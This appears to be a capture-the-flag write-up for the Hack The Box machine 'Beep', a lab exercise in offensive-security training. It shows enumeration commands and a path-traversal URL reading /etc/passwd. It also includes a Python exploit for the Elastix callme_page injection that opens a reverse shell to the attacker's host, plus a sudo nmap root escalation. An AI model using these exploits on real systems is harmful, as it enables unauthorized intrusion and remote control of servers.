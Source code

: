 # [Beep](https://app.hackthebox.eu/machines/5)

Start off with an couple of `nmap` scans:

```bash
sudo nmap -sS -sC -p1-65535      --open -Pn 10.10.10.7 # deep scan 
sudo nmap -sS -sC --top-ports=20 --open -Pn 10.10.10.7 # quick scan
```

![nmap](./beep/nmap.png)

There are quite a few ports open. A few of them have to do with email services:

- 25 SMTP (https://book.hacktricks.xyz/pentesting/pentesting-smtp)
- 110/995 POP3 (https://book.hacktricks.xyz/pentesting/pentesting-pop)
- 143/993 IMAP (https://book.hacktricks.xyz/pentesting/pentesting-imap)

To enumerate the website, run the following in the background:

- Using `gobuster` beacuse the outdated SSL cert gives errors with `dirb` 

```bash
sudo apt install gobuster
gobuster dir -k -e -r -w /usr/share/dirb/wordlists/common.txt -u https://10.10.10.7
nikto -h http://10.10.10.7 -nossl --maxtime=30s
```

Looking at the webpage shows the following:

![website](./beep/website.png)

A Google search says the following about Elastix:

> Elastix is an unified communications server software that brings  together IP PBX, email, IM, faxing and collaboration functionality. It  has a Web interface and includes capabilities such as a call center  software with predictive dialing.

A trying some default logins does not give any easy wins:

- `admin/admin`
- `admin/password`

`nikto` does not have any helpful output but `gobuster` has some interesting directories:

![gobuster](./beep/gobuster.png)

Trying `/admin` asks for a username/password and there are no easy wins here as well... But after denying the password prompt, the following page is displayed:

![admin](./beep/admin.png)

Now that there is a version tied to a service, looking for an exploit is a good next step:

![searchsploit_elastix](./beep/searchsploit_elastix.png)

Now that we know what version of FreePBX is running, it is likely that we have a version of Elastix that is <= 2.2.0 since FreePBX v2.10.0 is tied to Elastix 2.2.0. This means that exploit 38091 is a possible option. Looking at the exploit shows that it is trying to send a request to `/vtigercrm/phprint.php`:

```bash
searchsploit -m 38091
cat 38091.php | grep php 
```

Verifying this URI exists shows that it is valid:

```bash
wget --no-check-certificate https://10.10.10.7/vtigercrm/phprint.php
cat phprint.php
```

![wget](./beep/wget.png)

Trying this exploit does not work well though... However, browsing to `/vtigercrm` shows the following page:

![vtiger](./beep/vtiger.png)

This new page gives another service and version to look for an exploit for:

![searchsploit_vtiger](./beep/searchsploit_vtiger.png)

Exploit 18770 looks promising! The exploit says to try and browse to the following URL:

- https://www.exploit-db.com/exploits/18770

```bash
https://localhost/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00
```

 Trying this with the target IP of 10.10.10.7 shows the following:

![18770](./beep/18770.png)

It looks like there is a local user of `fanis`! With this access, looking for service configuration files with passwords is the next step. The file at `/etc/asterisk/manager.conf` should give the admin password:

- https://www.telecomworld101.com/PiaF/manager.conf.html

![admin_password](./beep/admin_password.png)

Now trying to login to Elastix with `admin` and `jEhdIekWmdjE` shows a valid admin dashboard:

![elastix_admin](./beep/elastix_admin.png)

After some manual enumeration of the website, the following version info is found:

![versions](./beep/versions.png)

Now that the version of Elastix is known, exploit 18650 seems more likely to work now. Copying that exploit over and inspecting it shows it as a GET request to a URI with a parameter that gets passed to the Asterisk Management Interface socket directly. 

- https://www.offensive-security.com/vulndev/freepbx-exploit-phone-home/

```bash
searchsploit -m 18650
cat 18650.py | grep http
```

This exploit requires a a valid `extension` value which can be found in the Elastix admin interface at `https://10.10.10.7/index.php?menu=control_panel` for the user `fanis`:

![extension](./beep/extension.png)

With all this information, the exploit should work. Before executing it, the exploit code can be cleaned up to be more clear:

```python
import sys
import ssl
import urllib.parse
import urllib.request

if len(sys.argv) != 5:
  print(f'usage: python3 {sys.argv[0]} <rhost> <lhost> <lport> <extension>')
  exit(-1)

URL = f'https://{sys.argv[1]}/recordings/misc/callme_page.php?action=c&callmenum={sys.argv[4]}'
# using a python reverse shell instead of the original perl one
CMD = f'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{sys.argv[2]}",{sys.argv[3]}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\''
PAYLOAD_RAW = f'@from-internal/n\r\nApplication: system\r\nData: {CMD}\r\n\r\n'

print(f'[*] target is {URL}')
print(f'[*] encoded payload is "{urllib.parse.quote(PAYLOAD_RAW)}"')
# fix annoying errors due to site using TLS v1.0 ...
ctx = ssl.SSLContext(ssl.PROTOCOL_TLSv1)
with urllib.request.urlopen(URL + urllib.parse.quote(PAYLOAD_RAW), context=ctx) as r:
  print('[+] RESPONSE:')
  print(r.read().decode())

print('[+] DONE')
```

Executing this gives the reverse shell:

![exploit](./beep/exploit.png)

![user](./beep/user.png)

For privilege escalation, enumerating user permissions shows interesting values:

![sudo](./beep/sudo.png)

`nmap` is a known GTFO binary! Getting root is done by running nmap interactively:

- https://gtfobins.github.io/gtfobins/nmap/

```bash
sudo nmap --interactive
!sh # run at the interactive nmap prompt
python -c "import pty;pty.spawn('/bin/bash')" # get a TTY shell
```

![root](./beep/root.png)

